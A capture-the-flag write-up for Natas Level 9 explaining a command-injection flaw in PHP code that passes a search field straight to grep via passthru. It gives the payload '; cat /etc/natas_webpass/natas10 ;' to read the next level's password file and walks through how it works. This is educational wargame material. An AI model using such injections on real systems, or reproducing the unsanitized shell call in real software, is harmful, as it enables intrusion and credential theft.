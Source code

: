 # Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/><br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

Our payload       `; cat /etc/natas_webpass/natas10 ;` <br/>
Terminate the `grep` command with `;` and view the password file and then terminate `cat` command with `;` 

As evident from below screenshot, this gets us password for next Level.

![Level 9 Solution](./images/Level9_solution.png)

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i ; cat /etc/natas_webpass/natas10 ; dictionary.txt   #  ; terminates command
```
`;` terminates `grep` command, runs our `cat` command and terminates it again.

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
